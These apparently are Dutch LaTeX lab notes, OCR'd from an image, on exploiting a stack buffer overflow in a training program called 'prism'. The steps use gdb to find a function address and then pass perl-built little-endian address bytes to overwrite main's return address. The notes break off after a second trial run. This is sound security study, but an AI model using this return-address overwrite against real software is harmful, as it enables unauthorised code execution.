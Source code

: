 \begin{enumerate}
  \item disass gegevens is gegeven: 0x08048481
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x81\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''

\end{enumerate}
\end{enumerate}
